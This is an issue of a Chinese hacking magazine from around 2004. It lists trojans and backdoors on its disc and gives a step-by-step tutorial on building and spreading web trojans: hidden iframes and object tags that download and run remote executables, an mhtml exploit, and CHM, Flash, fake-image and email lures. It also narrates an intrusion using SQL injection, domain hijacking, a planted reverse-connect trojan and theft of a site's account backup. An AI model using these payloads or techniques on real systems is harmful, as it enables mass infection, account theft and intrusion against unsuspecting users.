- **SQL 跨库查询动画演示**
- **网络版还原精灵破解教程**

## 黄金盾

`\huangjindun.htm`

- **木马克星 9.99xp leozen 完美版**  
  删除目录下的 virus.300 文件，打开木马客服时提示错误，不管它，直接升级。以后升级可先备份 virus.300 文件，然后再升级。
- **The Cleaner Pro V4.0 Build 4218 完美版**  
  一个专门检测和清除侵入系统中的特洛伊木马的专业程序，可在线升级版本和病毒数据库。
- **Fearless Bound File Detector v0.1**  
  可以轻松去除捆绑于 RAR 文件中的木马的工具。
- **费尔个人防火墙 V2.1**  
  专业级的强大功能、个性化的设计理念、个人网络安全工具的首选。
- **Sygate Personal Firewall v5.5**  
  可以让你的系统免遭来自 Internet 上的非法访问，功能强大，具伸缩性而且方便安装配置。
- **木马分析专家个人防火墙 2004 专业版**  
  能有效地监控任何网络连接，通过过滤不安全的服务，防火墙可以极大地提高网络安全，同时减小主机被攻击的风险。
- **hotfixchk.vbs**  
  检查本地或者远程 Windows 服务器是否安装相应补丁。

**INDS V1.0 Home Edition**

基于特征码和异常有机结合的网络入侵监测系统。

**Nessus 2.0.6a**

一款不错的基于 UNIX、Linux、BSD、Solaris 和其他一些系统上的远程安全扫描工具，基于 GPL 发布，源代码开放并可自由地修改后再发布，可扩展性强。

**Niloo IIS Security Scanner 1.0**

一款 MS Webserver 漏洞扫描器，可以扫描多达 750 种 IIS 4.0/5.0 漏洞。

**防 RPC 病毒安全策略包**

本策略包禁止了任何远程 IP 对 135 端口、139 端口、445 端口和 ICMP 端口的连接，有效防止任何变种冲击波病毒的攻击。

**Rootkit Detector v0.6.2**

可以检测出多个 Windows 下的 Rootkit。

**snort 2.1.0**

一个开放式的网络入侵检测系统，有三种工作模式：包探测器、数据包记录器、网络入侵检测系统。

**BadCopy Pro v3.31 build 0925 汉化版**

可以在不需要人工干预的情况下读出 CD-ROM 或磁盘上的坏文件，效果显著，还具有智能修复的功能，最大程度地挽回损失。

**ShadowSecurityScanner 7.0**

一款俄罗斯安全界非常专业的安全漏洞扫描软件，具有安全扫描、口令检查、操作系统检查等强大功能，支持在线升级。

**WinSock Expert V0.6 beta1**

一个用来监视和修改网络发送和接收数据的程序，可以用来调试网络应用程序，分析网络程序的通信协议，并且在必要的时候能够修改发送的数据。

## 补丁园

`\patch.htm`

- “震荡波（Worm.Sasser）”病毒专杀工具
- Sasser.A、Sasser.B 蠕虫移除工具
- Sasser 蠕虫新变种诺顿专杀
- McAfee 流行病毒木马清除工具
- Microsoft Windows XP 64-Bit Edition Version 2003 补丁
- Windows Server 2003 安全更新程序（KB835732）
- Windows XP 安全更新程序（KB835732）
- Windows NT Workstation 4.0 安全更新程序（KB835732）
- Windows NT Server 4.0 安全更新程序（KB835732）
- Microsoft Windows 2000 SP4 联众世界广告去除补丁
- 天网防火墙个人版 v2.51 破解补丁

## 幽灵谷

`\youlinggu.htm`

**Flux v0.90a**

一款 DLL+IP 反弹木马，可以自定义 DLL 插入进程、注册表启动项，在 2000/XP 下还可以注册成系统服务、安装文件名。

**Fuck Trojan 1.2**

简单的 c/s 型特洛伊木马，用 Delphi 7 编写，内含源代码。

**黑洞 2004 正式版**

国内优秀的特洛伊木马之一，在生成服务器时附插入服务端，会远程验证是否注册用户。

**海阳顶端网 ASP 木马 2004 版**

功能强大的网页木马。

**好友号好好盗 For QQ2004**

一个特简单易用的盗 QQ 软件，专盗自己好友的号。

**冰狐浪子微型 ASP 后门客户端**

第一个带客户端的 ASP 后门，最小的 ASP 后门，功能可比海阳顶端网 ASP 木马！

**LANfiltrator 1.5 Beta III**

一款功能不错的特洛伊木马，可以反杀常见的 400 多种防火墙程序，利用了 IP 反向连接，具有 4 种 IP 通知功能。

**MirLegend**

用 VC 编译的一个后门，主要部分使用了 tcmd 的代码。

**Nuclear Bot v1.0b**

一款 IRC 木马，从事先设定的网址上读取连接配置信息，然后再进行连接。

**Poly Server 1.0b**

一个多类型后门，可以让你完全控制对方，可以是 FTP、可以是 Telnet，也可以是 Web 服务，或者是 socks4，这些取决于你生成后门文件时的配置。

**ProRat v1.6**

功能非常强大的国外木马，可以获取所有程序和 Windows 密码，正确保存键盘记录。

**Toquito Bandito v5h17**

一款 DLL+DNS IP 反弹型木马，具有 DNS 反弹、PHP 动态 IP 通知功能。

**ZXshell**

一个 8K 木马，拥有 bits 的高隐藏性和 winshell 的操作、功能，以及模仿 Nethief 实现了服务端上线通知。

## 栖地

`\qidi?.htm`

丁香花、勇气、加速度、布拉格广场、心碎了无痕、窗外、十面埋伏、壁虎、漫步、爱情诺曼底、奔跑、下一站天后、一个人在、相容、超人、忍者龟、Get The World 等。

# 冒险类游戏

`\qidi1.htm`

**向地狱 1.0 Beta**

平易软件开发的全新打斗式角色扮演游戏，将 RPG 式的情节与街机的战斗方式融汇一体。

**GJ GoldRunner 1.0**

让你动手又动脑的挖金块游戏，画面精巧细致，必须动手又动脑才能逐一过关。

**Gubble 1.2**

一款类似“小精灵”的游戏，风格逗趣可爱，而且玩法设计上也非常具有创意，很适合各个年龄阶段品玩。

**Super Mario Alpha**

从红白机游戏移植到 PC 上的游戏，老一辈的玩家应该对超级玛丽很有亲切感。

# 射击类游戏

`\qidi2.htm`

**Absolute Terror**

一款漂亮的 3D 空战小游戏，需要 3D 加速卡及 OpenGL 驱动。

**SpaceBoy 0.5**

一款以太空为战斗场景的横轴射击游戏，游戏机制当中采用了许多很特别的创新设计。

**ShootDown 0.3**

一款小蜜蜂型态的射击游戏，比起传统的小蜜蜂，这款游戏还多了一些变化，比如玩家可以拿到提升火力的合体装备，而且在每过一些关卡之后还有大型的头目会出现哩。

**Wizard Star 2nd**

以爆笑角色造型挂帅，充满了浓厚的卡通式风格，采用快速强制的卷轴设计，让整个游戏的进行充满紧凑刺激的快感。

# 战斗类游戏

`\qidi3.htm`

**挖金子**

还记得当年的《挖金子》吗？现在甭管你的机器已经升到多高了，也一样能玩它哦！

**Raising Dead 1.5**

一款射击游戏，能达到 1027×768、64 兆色，具有高质量的数字音效和高质量的图像。

**Spear**

十分带劲的射击游戏，有点像《三角洲》。

**超级坦克大战**

这个游戏在你无聊的时候非常好玩，伪 3D 渲染，看看它 1M 的体积你就明白了。

# 益智类游戏

`\qidi4.htm`

**BigJig 5.02**

好玩的拼图游戏，共分简单、适中、困难三种玩法。

# 经典 MTV

`\qidi5.htm`

- 蔡依林—说爱你
- 孙燕姿—作战
- 周杰伦—以父之名
- 郑希怡—技术性击倒

# Flash 经典作品

`\qidi6.htm`

焚书坑儒、I will be your friend、I cry、I will do、直到永远、你怎么不在身边、梦网物语、二踢九叩、wind 等。

难度等级：中

适合读者：网页漏洞研究者、养“鸡”厂厂长

前置知识：JavaScript 基础、网页制作基础

刘流：微软最近接连公布了一系列 IE 的漏洞，很多刚学安全技术的朋友很纳闷：这种漏洞怎么利用呢？浏览器溢出？有些玩系统漏洞、脚本攻击很长时间的大虾对 IE 漏洞也不是太明白，不知道它究竟能带来什么危害。其实很简单，IE 漏洞就是利用我们的浏览器就可以实现攻击和入侵的漏洞，由此可见目标范围之广。同时，由于很多人对 IE 漏洞的认识不足，安全意识弱得可怜，所以进一步加强了 IE 漏洞的危害。本文将带你直接进入 IE 漏洞的攻击训练室，直接带来各类利用 IE 漏洞攻击的网页木马，从制作、隐藏、利用等方面全面实例讲解。想进入新的安全天地吗？请跟我来……

# 网页木马

## 让你闻“P”成莽

○ 文／图 血汉

## ——网页木马制作、隐藏、传播全接触

现在网上最流行的安全话题是什么？血汉告诉你，现在网上最流行的主要有 3 个话题：一是 SQL 注入，二是缓冲区溢出，三就是网页木马了（底下一菜鸟大叫：这些地球人都知道了，再浪费时间，小心砖头！！）。我汗，赶紧言归正传。今天我们就用实际的例子来看看现今网络上流行的各种网页木马的制作技术，让你也能轻松学会制作自己的网页木马！

并且已经申请好了，因为下面我们很多网页木马都要用到 ASP 支持的空间，所以大家也赶紧去准备一个吧！

下面我们还是先来配置我们的木马，如果你想多抓肉鸡，可以放上反弹端口的木马，比如网络神偷之类的，肉鸡肯定一群一群地来，开个养鸡场都没问题。这里我用的是密码解霸 2004 版，用来抓各种游戏、聊天工具、E-Mail 等的账户和密码。注册机是 3.2 版，可以注册 3.2 以上的所有版本。先打开注册机，填上你要接受密码的邮箱，然后在软件注册里随便输入一个注册码，点注册就会弹出真正的注册码。好了，关掉它，打开密码解霸 2004 版，将你刚才的邮箱填上，再去软件注册里面将你刚才的注册码复制上去即可注册成功！如图 1 所示。

> 本文所有涉及软件均可以在杂志配套光盘中找到。

# 网页王：动感网页木马制作过程

### 1．网页木马中的经典：动感网页木马

前段时间非常火爆的 Object 标签漏洞被大家炒得沸沸扬扬，动感就是利用的这个漏洞，而且是所有利用这个漏洞的木马中比较好的一个。我们可以将想要让别人中的木马嵌套在网页中，对方一访问这样的页面马上就中招，自动在本地安装我们的木马，呵呵，好玩吧？不过有个先决的条件就是需要有一个 ASP 空间的支持。当然，对于广大网虫一族来说，最好是用免费的 ASP 空间咯，因为这样才能保证别人找不到你哦！我找了一个免费的空间：

```text
http://vlinto.tbns.net/cgi-bin/vlinto6/signup
```

这个时候我们还要设置一下我们的密码解霸，让它不显示信息，因为我们做的是网页木马，所以这个信息对我们很重要，总不能在别人机器上提示是否安装木马吧？打开高级设置，把安装提示信息去掉，如图 2 所示。

其他的项目大家可以根据自己的爱好来填写，也可以不改，配置好以后点“生成”就可以生成我们的木马了。如图 3 所示。

这个时候你一定不要点“是”哦，那样的话就是在本机安装了，我们点“否”。好了，将我们的木马命名为 mm.exe，先将它上传到网络上。因为我们刚才申请的这个空间不支持上传 exe 文件，所以我上传到网易上面的免费空间，没有的朋友可以到：

```text
http://pg.nease.net/php/free/pregister.php
```

申请一个。我用 CuteFTP 上传，木马文件的地址是 `http://qfaq.go.nease.net/mm.exe`。

OK，现在你打开动感木马生成器，把你的木马地址填写上去即可，如图 4 所示。

点击“生成网页木马”就可生成一个名为“动感木马”的文件夹，里面有 3 个文件：mm.html、lhxyexe.asp、lhxyhta.asp。为了隐藏，我们这里还要修改一下，用记事本打开 `lhxyexe.asp`，把“网页木马测试”换成有迷惑性的标题。然后再把下面这段代码插入一个正常显示的网页文件里，比如我把它插入我的 `test.htm` 文件里，如图 5 所示。

```html
<iframe src="mm.html" name="zhu" width="0" height="0" frameborder="0"></iframe>
```

最后把 `mm.html`、`lhxyexe.asp`、`lhxyhta.asp`、`test.htm` 4 个文件全部上传到我们的空间上，然后诱使人打开你的网页 `http://www.thns.net/xuehan/test.htm` 即可让人中招了。

关于如何使你的网页木马更难让人发现和各种伪装技巧，我将在后文介绍。有关动感网页木马的制作我们就先介绍到这里。一般来说，对普通的网络使用者是非常管用的，但是最新的 IE6 + Update 可以防掉这招，大家可要小心了！

### 2．暗夜中的幽灵：exe2bmp 网页木马

我们这里要用到的是陈啸涛的 exe2bmp 木马生成器，这个网页木马的制作也是利用 object 标签的漏洞。可见这个漏洞危害之大。

打开 `exe2bmp.exe`，点选“选择”按钮，选择我们的木马文件，我这里还是用 `mm.exe`，点“生成”即可生成 3 个文件，即 `mm.bmp`、`mm.asp`、`mm.htm`。如图 6 所示。

关闭 `exe2bmp.exe`，在当前的文件夹下我们就会发现这 3 个文件。在上传之前我们还要修改一下，因为 `mm.asp` 文件在打开后不能关闭。我们用记事本打开 `mm.asp`，将原来的“好像很爽的感觉……”周围代码替换成我们自己的迷惑性代码。如图 7 所示。

图 7

这个网页木马很具迷惑性，也非常有用，但是有个小缺陷，就是运行后不能自己关闭，所以得给它加个可以自己关闭的功能。下面这段代码修正了它的 ASP 文件不能自动关闭的错误：

```html
window.close()
end if
if Folder.SubFolders.Count <> 0 Then
For Each SubFolder In Folder.SubFolders
SearchBMPFile SubFolder, fname
Next
End If
End Function
</script>
<SCRIPT language=javascript>
function F() {
  FF();
  if (success==0) setTimeout("F()", 2000);
}
setTimeout("F()", 2000);
parent.moveTo((screen.width-0)/2,(screen.height-0)/2);
parent.resizeTo(0,0);
</SCRIPT>
</head>
<HTA:APPLICATION caption="no" border="none" SHOWINTASKBAR="no">
<body bgcolor="#ffffff" text="#000000" scroll="no" leftmargin="12" topmargin="3" marginwidth="0" marginheight="0" oncontextmenu="self.event.returnvalue=0" onkeydown="javascript if(event.keyCode==27||(event.keyCode==78 && event.ctrlKey))return false;">
</body>
</html>
```

将上面这段代码保存后，再打开 `mm.htm` 这个文件，将 ``、`<object data="mm.ASP" width=0 height=0>` 这段代码复制下来，然后和制作动漫木马的方法一样将它插入正常的网页里面即可！比如我这里还是 `test.htm`，保存好后，然后将 `test.htm`、`mm.asp`、`mm.bmp` 3 个文件全部上传到你的空间上去，然后诱使人看你的 `http://www.tbns.net/xuehan/test.htm`，即可让人中马！

这样，又一个超强的网页木马在你的手上诞生了，不要用它去做坏事哦！

### 3．批量抓鸡：冰狐浪子的网页木马

这个网页木马不需要 ASP 空间的支持，只需要普通的空间即可。制作很简单，一共有 3 个文件，模板我已经给大家打包好了，放在光盘里。你需要做的只是修改几处地方：把你的木马命名为 `xuehan.exe`，这个是必须的。然后用记事本打开 `2.htm` 文件，找到 `jsurl` 后的一段地址代码，将这部分换成你自己的地址即可，如图 8 所示。

图 8

再用记事本打开 `xuehan.js` 文件，将 `url` 后的地址换成你要给别人执行的木马地址就可以了。如图 9 所示。

图 9

保存好，然后将这 3 个文件上传到网易的免费空间上（毕竟是国内的，速度还比较快），然后让人打开 `2.htm` 就中招了（这个文件可以改名，可以自己修改好，然后和动画的制作方法一样再用一个正常的文件来调用它）。比如我的地址是：`http://xuehan.go.nease.net/2.htm`，大家可以测试一下，这个是无害的，给大家做个演示。如果木马执行成功的话就会打开一个二维的动画，呵呵，很好看的哦！

`001.jpg`，不过我们的网页木马却已经执行成功了！呵呵，够阴险吧？什么，你觉得还不够？那让我们再来看一个更阴险的招数，那就是制作成 Flash 网页木马！

# 各类欺骗性网页木马制作

说实话，制作一个网页木马是很简单的事情，关键是我们如何来让人相信我们的网页没有木马，放心地来看，放心地被我们中上木马。估计现在稍微有点安全意识的人都不会轻易地打开陌生人发来的网页了，所以我们还要把我们的木马伪装一下。

### 1．jpg 木马制作技术

`http://xxx.xxx.xxx.xxx/001.jpg` 这个地址和普通的地址没什么不同吧？打开后在浏览器上也会和正常情况下一样出现图片，但木马却已经在你系统的后台下载并自动执行了，具有很强的迷惑性哦！我们来试试怎么构造这样的页面。打开记事本写入如下—段代码：

```html
<html>
<iframe src="IE6.0网页木马地址" width="0" height="0" frameborder="0"></iframe>
<center></center>
</html>
```

然后将其另存为 `001.jpg`，剩下的工作就是将这个 `001.jpg` 图片格式的文件上传你的空间，给出相对路径让别人访问就可以了。别人在访问这个 `001.jpg` 文件时，浏览器会将文件内的 HTML 码执行，根据代码的内容，你的网页木马地址会作为隐藏窗口被打开，另外那个图片也会出现在对方所打开的网页上！这个好玩吧！再来个更好玩的，我们用记事本写了一个代码如下：

```html
<html>
<iframe src="http://www.tbns.net/xuehan/test.htm" width="0" height="0" frameborder="0"></iframe>
<center></center>
</html>
```

然后我把它的名字改为 `001.jpg`，保存后把 `001.jpg` 和 `002.jpg` 上传你的空间上，让人打开 `001.jpg`，别人看到的是 `002.jpg` 这个图片，表面上还是显示 `001.jpg`，不过我们的网页木马却已经执行成功了！呵呵，够阴险吧？

### 2．Flash 网页木马制作技巧

这种网页木马表面上是一个 Flash 动画，实际上却是我们的网页木马，在你看 Flash 的同时就不知不觉中了木马了，而且还可以在一些没有去掉 Flash 标签的论坛里放马哦！论坛可是放马的草原！呵呵，够阴险的了吧！下面看看怎么来制作这样的木马！

打开 Flash MX（你要是用其他的动画制作软件来制作也可以，方法都是一样的），首先要找一个正常的 Flash 动画，当然要有吸引力，不然别人不会看的！在第一帧上点右键，打开动作面板，依次打开 `Actions\Browser\Network\getURL`，双击，在 URL 里填上你的木马网页的地址，如图 10 所示。

然后在第二帧上点右键“插入空白关键帧”，再打开动作面板，展开 `Actions\Browser\Network`，打开 `loadmovie`，双击它，在 URL 里填上你的正常的动画地址，比如我这里用的是：

```text
http://www.pconline.com.cn/pcedu/carton/xpj/10212/other/iconstory.swf
```

一个很不错的动画，最后点“文件／输出影片”，它会让你命名，我这里用 `test` 这个名字。你到你保存的目录里即可找到 `test.swf` 这个文件，把它上传到你的空间，把 URL 发给别人就等着抓鸡了！

如果你嫌这样抓鸡不够爽快，那我们到论坛上去办个养鸡场吧！例如我的地址是：`http://www.tbns.net/xuehan/test.swf`，比如没有优化的乔客论坛可以这样发帖子：`[FLASH=450,350]http://www.tbns.net/xuehan/test.swf[/FLASH]`

别人打开这个帖子时就会打开我们的网页木马，但是又不会跳走。呵呵，够阴险吧！

### 3．电子邮件传播网页木马

上面的办法能让你开个养鸡场了，要想公司上市就得扩大规模，呵呵，再来看看另外的一个扩大范围抓鸡的方法：利用邮件传播网页木马！也就是说别人只要收到你的邮件，打开邮件一看就会中木马！

我们这里用我们上面制作的动感网页木马为例，来说明邮件木马是怎么样制作并批量抓肉鸡的。我们用 Foxmail 来新建一个网页模板：启动 Foxmail，打开“工具\模板管理”，新建一个模板，我们命名为 `test`。再打开 Foxmail 的安装目录，找到 `\Template\New\` 文件夹下的 `test.htm` 文件，用记事本打开它，然后在里面的 `<body></body>` 之间加上如下代码：

```html
<object data="http://www.tbns.net/xuehan/lhxyexe.asp" weight=0 width=0></object>
<object data="http://www.tbns.net/xuehan/lhxyhta.asp" weight=0 width=0></object>
```

> **注意：**
>
> `lhxyexe.asp` 的调用一定要在 `lhxyhta.asp` 的前面。

保存后回到 Foxmail 里面，点“撰写”按钮旁的三角，使用 `test` 模板，如图 11 所示。

然后你就可以在里面写信了，最后发送给你要放马的人即可，他要是打开这封信就会中马的。如果你里面写个什么好的祝福的话，相信不出一会就会传得很远的。呵呵。

## 终级网页木马的隐藏技术

上面介绍的技术足够我们批量获得肉鸡了，但很多“硬骨头”目标却不会这样简单地就上当，所以，我们需要将网页木马进行巧妙地隐藏，让它非常具有迷惑性，让“黑客”也能被我们黑！嘿嘿。

### 1．域名欺骗大法

这是一些牛人发明的一种很具有迷惑性的方法，你看到的是一个正常的域名，而实际上访问的却是别人的东西。这个要配合在论坛上发帖子来使用，比如新建这样一个 HTML 文件，写下如下代码：

```html
<a href="http://www.163.com#00@qfaq.com">www.163.com</a>
```

我们看到的是 `www.163.com` 这个域名的连接，当鼠标放在这个连接上面的时候，在 IE 的状态栏里显示的也是 `www.163.com` 这个域名，但是当我们点击打开的却是 `www.qfaq.com` 这个网站！如图 12 所示。

为什么会出现这样的情况呢？这个就是利用 IE 对解码的一个错误来的，你要是利用得当也是非常具有迷惑性的。那到底怎么利用呢？你可以将你的木马地址写在后面就可以了，别人点击的时候也就是成为你肉鸡的时刻。

### 2．利用 CHM 来传播木马

下面我将为大家介绍本文的重中之重，也是最新的网页木马技术：CHM 传播木马。危害性极大，希望大家适度利用！

CHM 文件也就是帮助文件的一种格式，现在多用于制作电子书来传播，所以要是你给人发一个好的教程什么的，别人一定不会有怀疑的，而且这个是在本地执行，权限很大，不需要像远程打开我们的网页木马一样那么需要很大的权限！下面，我们就来看看怎样来制作这样的网页木马！

首先找一个电子书，我们先把它反编译一下，先找一个素材，当然你也可以自己做一个。我这个人比较懒，所以就拿来别人的来用了。这里我们要用到一个工具：Quick CHM，下载地址是：`http://www.tiansha.net/down/soft/302.htm`，这个可以反编译 CHM 文件。安装好，运行，界面很简洁。为了方便我们制作，我们要先写好一个 HTML 文件，这次我们利用的木马是一个比较新的网页木马。

木马，可以突破 IE6.0，只要没有打最近的几个 IE 补丁都可以中木马，而且没有任何的提示和反应就可以运行我们的木马。有关这个漏洞的详细说明，大家可以到 www.qfaq.com 上查找相关的帖子，这里就不再详细说明了！

由于这个网页木马要覆盖掉记事本程序，所以你在测试的时候要注意备份下你的记事本程序哦，有点恶毒！嘿嘿。Win98 的用户可以在这里找到 `c:\windows\notepad.exe` 这个文件，将它复制到别的目录里即可；2K 的用户在 `c:\winnt\notepad.exe` 找到；XP 和 2003 的用户在 `c:\windows\notepad.exe` 找到，备份下即可。

这里我们不用上传任何的 EXE 文件，所以不管你上不上网，只要打开我们制作的 CHM 文件就可以中木马。这里我们先把 EXE 文件转换成编码形式，这样就可以不用上传 EXE 文件了。OK，打开我们的 1.exe 文件（DOS 环境下运行），将 2.exe 这个文件（一个三维的动画程序）转换一下，如图 13 所示。


图13

打开 3.txt，你会看到很多的数字，这个就是 EXE 文件的 ASCII 码形式，如图 14 所示。


图14

# 注意

> 一定要把文本文件的最后一个逗号去掉，不然有可能运行不成功！然后复制所有文件到我给你的那个网页模板里，用记事本打开 2.htm，在开头找到 `<script language="vbs">a=array();`，在这个括号内粘贴上面的 ASCII 码，保存即可！你可以先打开测试一下能不能运行我们的木马！

OK，现在打开 QuickCHM，先打开“文件/新建”新建一个工程，然后再打开“主题/添加子文件”选择我们的网页木马程序导入。有时候有些机器会出现错误什么的提示框，你不用管，这个不会影响我们的程序。然后点“文件/编译”即可生成一个 CHM 文件，然后打开这个 CHM 就可以中木马了！如图 15 所示。


图15

## 3. 利用 HTML 文件重定向漏洞制作网页木马

最后，我们用一个最厉害的网页木马制作方法来结束我们这次的网页木马之行吧。制作方法极其简单，结合上面我们用的 CHM 制作木马的技术，危害太严重了——因为我们是在本地运行 CHM，所以是本地权限，也就不用那么麻烦来修改注册表什么了。只需要几句代码就可以搞定。这个网页木马是利用 HTML 文件重定向的漏洞来的，所以现在的这个网页木马针对所有的 Windows 版本和所有的 IE 版本都有效果，危害性极大！

（关于“HTML 文件重定向漏洞”，《黑防》前几期有详细的漏洞分析和介绍，大家有兴趣可以翻看。）

我们来实际操作一次：新建一个 HTML 文件，把以下代码复制过去：

```html
<object name="x" classid="clsid:11111111-1111-1111-1111-111111111113" codebase="mhtml:file://C:\NO_SUCH_MHT.MHT!http://xuehan.go.nease.net/xuehan.exe"></object>
```

其中“http://xuehan.go.nease.net/xuehan.exe”是你的木马的地址，将网页保存为 hhb.html，这个名字随自己喜欢，然后再用 QuickCHM 来编译我们的网页。

**脚本小子：** 网络入侵从最开始的配置漏洞入侵，比如空口令，到系统缺陷入侵，比如漏洞，再到应用程序漏洞入侵，比如第三方系统程序漏洞，直到现在非常火爆的应用平台入侵，比如脚本入侵，可以很明显地看到网络安全在飞速的发展。不管是入侵者的安全意识，还是防护者的安全意识都有长足的进步。但往往在非常不起眼或者平常觉得非常不可能的情况下出现漏洞，这又说明什么？只能再一次地印证一点：安全是个整体，任何一个疏忽都将导致整体被入侵！

# 寻宝记

◎ 文/图 Darkne2s


# 会透某安全站点全过程

- 难度等级：中
- 适合读者：IDC 管理员、虚拟主机使用者
- 前置知识：SQL 注入、网页木马

最近盯上了一个安全网站，倒不是因为和它有矛盾，只是别人告诉我这个站里有好东西，但是不公布。为了这个传说中的好东西，我决定入侵他的站点！算是寻宝吧！

说做就做！马上拿出端口扫描工具，发现对方开了 21、25、80、110。Ping 该站点的域名，得到 IP，在 IE 中输入 Ping 得到的 IP，用 HTTP 访问 IP，返回的是页面已经删除或者找不到该页面；但再用域名能正常访问到网站，看来这应该是虚拟主机了！

来进一步确定它的系统信息，Telnet www.***.com 80，然后再 GET，返回的信息是 IIS 5.0、WIN2K，很普通嘛。很好，再继续：首先从网站的 ASP 程序入手，有一个 ASP 下载系统，那就来试试下载系统吧！输入：

```
http://www.xxx.com/soft/list.asp?id=4190'
```

返回到了首页，再来：

```
http://www.xxx.com/soft/list.asp?id=4190 or 1=1
```

又返回到了首页！BT，看来这个网站的管理员还算有点安全知识（废话，目标是安全网站啊！没那么白痴），不死心，再看看程序搜索那里，输入 or 1=1，如图所示，返回一个正常页面。OK！发现注入漏洞，这种小的地方最没有人注意了，也往往是最容易出问题的地方！


我们继续，输入 a'; use master; 返回：

```
Microsoft JET Database Engine 错误 '80040e14'

在 SQL 语句结尾之后找到字符。

/soft/index.asp，行 80
```

如此看来应该是 Access 的数据库了，输入 a'select * from admin，返回：

```
Microsoft JET Database Engine 错误 '80040e14'

语法错误。在查询表达式 'name like '%a'select * from admin%' order by time desc' 中。

/soft/index.asp，行 80
```

看来这条路行不通了，ASP 程序把输入的语句都会作为 NAME LIKE 处理，无法突破最后面的 `%'`。既然是 Access 数据库，我想应该有暴库的可能性，于是开始猜 conn 文件的地址，输入了几个可能的地址都没有找到，看来希望又落空了！有点郁闷。

到了这个地步，我想很多人都可能要放弃了，但是为了传说中的东西，我不想放弃，那么简单能入侵的就没有好东西了！于是又想一计：劫持他的域名！然后把域名转入到我的一个木马页面！当输入原来的域名时，虽然能访问到原来的页面，其实里面已经加进了网页木马了！哈哈，看你管理员来不来管理自己的站点。怎么样？我很聪明吧？呵呵。于是，域名劫持开始……

在 www.***.cn（国内一大型网络服务提供商，这里由于危害太大暂时屏蔽）中查询目标的域名，它会提示域名已经被注册，并给出了 Whois 信息，我先从 Whois 得到的信息来分析：

| Field | Value |
|---|---|
| DomainName | xxx.com |
| Registrant Organization | wang** |
| Registrant Address | chongqing |
|  | 402260 |
| Administrative Name | wang** |
| Administrative Organization | wang** |
| Administrative Address | chongqing |
|  | chong qing |
|  | China |
| Administrative City | chong |
| Administrative Province/State | qing |
| Administrative Postal Code | Sichuan 402260 |
| Administrative Country Code | China |
| Administrative Phone Number | 86 000 47553896 |
| Administrative Fax | 86 000 47553896 |
| Administrative Email | yaqie***@hotmail.com |
| Billing Name | IDC |
| Billing Organization | idc |
| Billing Address | China |
| Billing City | ChongQing |
| Billing Province/State | ding |
| Billing Postal Code | ChongQing 111111 |
| Billing Country Code | China |
| Billing Phone Number | 86 0123 12345678 |
| Billing Fax | 86012312345678 |
| Billing Email | gm@**kj.com |
| Technical Name | **kj |
| Technical Organization | ** |
| Technical Address | China |
| Technical City | png |
| Technical Province/State | ding |
| Technical Postal Code | shi Henan 467000 |
| Technical Country Code | China |
| Technical Phone Number | 86 0375 3897122 |
| Technical Fax | 8603753897503 |
| Technical Email | aaaa@**.com |
| ExpirationDate | 2004-11-15 |

看到这个开心很多，我们能掌握很多信息了！注册域名的人叫 wang**，注册的 E-mail 是 yaqie***@hotmail.com，通过 **.com 这个代理商来注册的域名——最简单的方法是先对 E-mail 进行破解，第一次我拿他的名字当密码就进去了，省了不少时间还吓了我一跳！呵呵，踏破铁鞋无觅处，得来全不费工夫！再去网络服务提供商的网站通过 E-mail 申请取回密码功能，然后我就开始漫长的等待了。N 久，真的是 N 久，服务商那边连动静都没有！邮箱里还是空空的，唉，估计他们的发信系统又“出问题”了吧！

于是又对服务商网站进行一番检查，很轻易地就发现了 SQL 注入点，还是 SQL Server 的，失望啊！这么大个站竟然有这样的漏洞，中国的网络安全意识由此可见一斑。由于以前有 N 多文章是介绍 SQL 注入的，我这里就不废话了，很轻易地拿到系统权限（不要太吃惊，我也是吓坏了），直接奔我们需要的信息去，查到邮箱为 yaqie***@hotmail.com 用户的密码，密码为“网上邻居”。再倒一次！幸好没有选择暴力破解这个密码，如果暴力破解的话估计得破解 N 个月！

好了，成功登录服务商主机，并没有发现我们的目标有空间服务，只是注册了域名。看来还得从网页木马入手，在服务商的域名管理中开始修改域名，转向为我的木马网页！嘿嘿。在我的木马网页中写入如下代码：

```html
<html>
<head>
<title>XX安全站点</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
</head>
<frameset cols="0,*" frameborder="NO" border="0" framespacing="0">
  <frame scrolling="NO" noresize>
  <frame src="http://www.XXX.com/">
</frameset>
木马源码
</html>
```

这样一来，既可以访问到原来的页面，又让他中了木马——我挂的是 20CN 的 PsShare 反弹木马，经过重新加壳，目前没有杀毒软件查杀。慢慢地等待了一个多小时，再一看木马控制端，上面有 30 多个主机连接上来了，慢慢找连接 IP 为重庆的主机，哈哈，有一个！成功连接上去，发现对方没有装任何防火墙！连杀毒软件也没有，想必他对他的技术很自信吧，哈哈！

翻了翻他的硬盘，发现某安全站的网页文件，OK，他肯定是这个安全站点的站长了！还有一个专门的“管理信息”文件夹，看来里面就是我们想要的东西了，拉下来，果然里面是整站的账号和密码备份。仔细看了下，没有一个密码是我能想到的，全部是奇形怪状的，怪不得他要把自己的密码备份呢，换我我都记不住。

至此，入侵已告一段落，以后的事都是后话了，不过上面还真有别人说的好东西，嘿嘿，这里就不说了，这趟还算是有所收获吧！

## 编后

域名劫持是一种古老的攻击手法了，这里提醒大家在买空间或者域名的时候注意一下 IDC 的安全性如何，这样不至于造成网站被人从侧面渗透入侵的尴尬局面。这次入侵完全靠运气，但是也是一种很不错的攻击手法。作者还很神秘地告诉我说他发现经常在《黑防》发表文章的某些人的网站也可以通过域名劫持来入侵哦！大家小心哦，嘿嘿……

# 抢先体验

## Windows LSA 远程溢出

◎ 文/图 Boyfriend


最近在网吧上网，发现很多网吧都是用的同一家软件的网吧管理软件，下意识地就想到研究研究它。先到网吧刷卡登记，然后在网吧终端机登录。在登录的时候，我发现输入 ID 和 PASSWORD 的对话框后面是一个 HTML 页面，是那个公司的广告，上面还写了该公司的网址。HTML 页面加上 N 多网吧都使用这个软件，这代表什么呢？如果我们在 HTML 页面加入木马语句的话，那肉鸡得有多少呢？呵呵，为了这点偶然的想法，我开始尝试。

我打开了该软件公司的网址 `http://www.somesoft.com/`，登录的时候出现 `http://www.somesoft.com/logo/ad.htm`，访问了一下，发现跟网吧登录的背景页面是一样的。哈哈，这下可以肯定每个网吧电脑都会在登录的时候调用 `ad.htm` 页面了！这个可就是最好的藏马地方了！于是，艰苦的入侵过程开始……

我入侵有个习惯，先在网页中找脚本漏洞，看能不能注入，因为脚本漏洞的安全防护是现阶段很多网站都不太重视的问题，而系统漏洞一般是很快会被弥补的。来，我们一起来看看具体情况：在新闻中心处输入 `http://www.xxx.com/news_browse.asp?ID=25'`，返回：


